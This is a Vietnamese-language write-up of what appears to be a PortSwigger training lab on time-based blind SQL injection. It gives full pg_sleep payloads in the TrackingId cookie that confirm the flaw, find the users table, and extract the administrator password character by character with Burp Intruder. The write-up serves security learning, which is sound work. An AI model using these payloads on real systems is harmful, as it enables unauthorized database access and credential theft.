






# Write-up: Blind SQL injection with time delays and information retrieval

### Tổng quan
Ghi lại quá trình khai thác Blind SQLi dựa trên times-delay để xác định mật khẩu `administrator`.

### Mục tiêu
- Lấy thông tin mật khẩu `administrator`
- Đăng nhập vào hệ thống dưới tên `administrator`

### Công cụ hỗ trợ
- BurpSuite Community
- Firefox Browser

### Các bước thực hiện
1. **Thu thập thông tin (Recon)**
- Kiểm tra tham số `TrackingId` trong header `Cookie` trong HTTP request được chặn trong BurpSuite
    ```
    TrackingId=s6yrystpFbrFp3D9'||(SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(-1) END)--
    ```
    
    ```
    TrackingId=s6yrystpFbrFp3D9'||(SELECT CASE WHEN (1=0) THEN pg_sleep(10) ELSE pg_sleep(-1) END)--
    ```
    
    - **Kết quả**: phản hồi sau 10s, xác nhận lỗ hổng Blind SQLi và DB là PostgreSQL
        
- Kiểm tra sự tồn tại của bảng `users` và `username` = `administrator`        
    ```
    TrackingId=s6yrystpFbrFp3D9'||(SELECT CASE WHEN (username='administrator') THEN pg_sleep(10) ELSE pg_sleep(-1) END FROM users)--
    ```
    - **Kết quả**: phản hồi sau 10s, xác nhận có bảng `users` và người dùng `administrator`
         

2. **Tạo Payload**
- Tạo payload dựa vào times-delay để xác định độ dài mật khẩu của user `administrator` và gửi qua Burp Intruder, 
    ```
    TrackingId=s6yrystpFbrFp3D9'||(SELECT CASE WHEN (LENGTH(password)=§1§) THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users WHERE username='administrator')--
    ```
    - **Kết quả**: độ dài mật khẩu là 20 kí tự
        

- Tạo payload dựa vào times-delay để xác định mật khẩu và gửi qua Burp Intruder
    ```
    TrackingId=s6yrystpFbrFp3D9'||(SELECT CASE WHEN (SUBSTRING(password,§1§,1)='§e§') THEN pg_sleep(10) ELSE pg_sleep(-1) END FROM users WHERE username='administrator')--
    ```
    - **Kết quả**: lọc kết quả phản hồi sau 10s, xác định mật khẩu là `fvimx1a0d0qzmwqahdq8`
        

3. **Khai thác (Exploitation)**
- Đăng nhập tại `/login` với `administrator`:`fvimx1a0d0qzmwqahdq8`
- **Kết quả**: Đăng nhập thành công, hoàn thành lab
    

### Bài học rút ra
- Thành thạo khai thác blind SQL injection dựa trên độ trễ thời gian.
- Nhận thức tầm quan trọng của kiểm tra đầu vào để ngăn chặn SQL injection.

### Tài liệu tham khảo
- PortSwigger: SQL Injection cheat sheet
- PortSwigger: Blind SQL Injection

### Kết luận
Lab này giúp tôi hoàn thiện kỹ năng khai thác Blind SQL injection. Xem portfolio đầy đủ tại https://github.com/Furu2805/Lab_PortSwigger 

*Viết bởi Toàn Lương, Tháng 5/2025*.


